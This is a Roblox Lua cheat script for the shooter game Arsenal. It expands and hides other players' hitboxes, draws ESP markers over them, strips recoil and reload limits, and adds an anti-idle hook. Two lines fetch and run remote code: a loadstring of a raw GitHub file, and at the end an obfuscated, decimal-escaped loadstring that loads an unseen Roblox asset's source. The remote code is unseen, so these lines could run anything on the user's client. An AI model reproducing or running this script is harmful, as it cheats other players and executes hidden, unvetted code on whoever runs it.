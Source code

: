 -- This is version v1.2
-- This script can be laggy depends ur cpu
local vu = game:GetService("VirtualUser")
game:GetService("Players").LocalPlayer.Idled:connect(function()
    vu:Button2Down(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
    wait(1)
    vu:Button2Up(Vector2.new(0,0),workspace.CurrentCamera.CFrame)
end)
 
game.StarterGui:SetCore("SendNotification", {
    Title = "Arsenal Script";
    Text = "Made by Dnhan 🐸"; 
    Duration = 9999999999999999999999999999;
})
wait(1)
game.StarterGui:SetCore("SendNotification", {
    Title = "Enjoy!";
   Text = "If you like script leave a comment"; 
    Duration = 999999999999999999999999999999999999999999999999999999;
})




local replicationstorage = game.ReplicatedStorage

for i, v in pairs(replicationstorage.Weapons:GetDescendants()) do
   if v.Name == "Auto" then
       v.Value = true
   end
   if v.Name == "RecoilControl" then
       v.Value = 0
   end
   if v.Name == "MaxSpread" then
       v.Value = 0
   end
   if v.Name == "ReloadTime" then
      v.Value = 0
   end
   if v.Name == "FireRate" then
       v.Value = 0.07
   end
   if v.Name == "Crit" then
       v.Value = 20
   end
end
function getplrsname() for i,v in pairs(game:GetChildren()) do if v.ClassName == "Players" then return v.Name end end end local players = getplrsname() local plr = game[players].LocalPlayer coroutine.resume(coroutine.create(function() while wait(1) do coroutine.resume(coroutine.create(function() for _,v in pairs(game[players]:GetPlayers()) do if v.Name ~= plr.Name and v.Character then v.Character.RightUpperLeg.CanCollide = false v.Character.RightUpperLeg.Transparency = 10 v.Character.RightUpperLeg.Size = Vector3.new(21,21,21) v.Character.LeftUpperLeg.CanCollide = false v.Character.LeftUpperLeg.Transparency = 10 v.Character.LeftUpperLeg.Size = Vector3.new(21,21,21) v.Character.HeadHB.CanCollide = false v.Character.HeadHB.Transparency = 10 v.Character.HeadHB.Size = Vector3.new(21,21,21) v.Character.HumanoidRootPart.CanCollide = false v.Character.HumanoidRootPart.Transparency = 10 v.Character.HumanoidRootPart.Size = Vector3.new(21,21,21) end end end)) end end)) loadstring(game:HttpGet(('https://raw.githubusercontent.com/Cesare0328/my-scripts/main/arsenal%20updated%20invis.lua'),true))()
GUI_MAIN                           = Instance.new('ScreenGui', game.CoreGui)
GUI_TARGET                         = Instance.new('TextLabel', GUI_MAIN)
GUI_AIM_AT                         = Instance.new('TextLabel', GUI_MAIN)

GUI_MAIN.Name                      = ''

GUI_TARGET.Size                    = UDim2.new(0,200,0,30)
GUI_TARGET.BackgroundTransparency  = 0.5
GUI_TARGET.BackgroundColor         = BrickColor.new('Fossil')
GUI_TARGET.BorderSizePixel         = 0
GUI_TARGET.Position                = UDim2.new(0.5,-100,0,0)
GUI_TARGET.Text                    = ' '
GUI_TARGET.TextColor3              = Color3.new(1,1,1)
GUI_TARGET.TextStrokeTransparency  = 1
GUI_TARGET.TextWrapped             = true
GUI_TARGET.FontSize                = 'Size24'
GUI_TARGET.Font                    = 'SourceSansBold'

GUI_AIM_AT.Size                    = UDim2.new(0,200,0,20)
GUI_AIM_AT.BackgroundTransparency  = 0.5
GUI_AIM_AT.BackgroundColor         = BrickColor.new('Fossil')
GUI_AIM_AT.BorderSizePixel         = 0
GUI_AIM_AT.Position                = UDim2.new(0.5,-100,0,30)
GUI_AIM_AT.Text                    = ''
GUI_AIM_AT.TextColor3              = Color3.new(1,1,1)
GUI_AIM_AT.TextStrokeTransparency  = 1
GUI_AIM_AT.TextWrapped             = true
GUI_AIM_AT.FontSize                = 'Size18'
GUI_AIM_AT.Font                    = 'SourceSansBold'


--Made by Andrheyplayz_officalyt
local gui = Instance.new("BillboardGui");
gui.Name = "";
gui.AlwaysOnTop = true;
gui.LightInfluence = 0;
gui.Size = UDim2.new(1.75, 0, 1.75, 0);
local frame = Instance.new("Frame", gui);
frame.BackgroundColor3 = Color3.fromRGB(170, 0, 0);
frame.Size = UDim2.new(1, 0, 1, 0);
frame.BorderSizePixel = 4;
frame.BorderColor3 = Color3.fromRGB(0, 0, 0);
local gi = gui:Clone();
local body = frame:Clone();
body.Parent = gi;
body.BackgroundColor3 = Color3.fromRGB(0, 170, 170);

for _, v in pairs(game:GetService("Players"):GetPlayers()) do
    if v.Name ~= game:GetService("Players").LocalPlayer.Name and v.Character and v.Character:FindFirstChild("Head") then
        gui:Clone().Parent = v.Character.Head;
    end
end
local c = 1 function zigzag(X)  return math.acos(math.cos(X * math.pi)) / math.pi end game:GetService("RunService").RenderStepped:Connect(function()  if game.Workspace.Camera:FindFirstChild('Arms') then   for i,v in pairs(game.Workspace.Camera.Arms:GetDescendants()) do    if v.ClassName == 'MeshPart' then      v.Color = Color3.fromHSV(zigzag(c),1,1)     c = c + .0001    end   end  end end)
net = true -- if false = do nothing
notify = true -- set this to false if u don't want to see notiflication

loadstring("\13\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\71\101\116\79\98\106\101\99\116\115\40\34\114\98\120\97\115\115\101\116\105\100\58\47\47\55\50\53\55\55\54\49\55\56\53\34\41\91\49\93\46\83\111\117\114\99\101\41\40\41\13\10")()
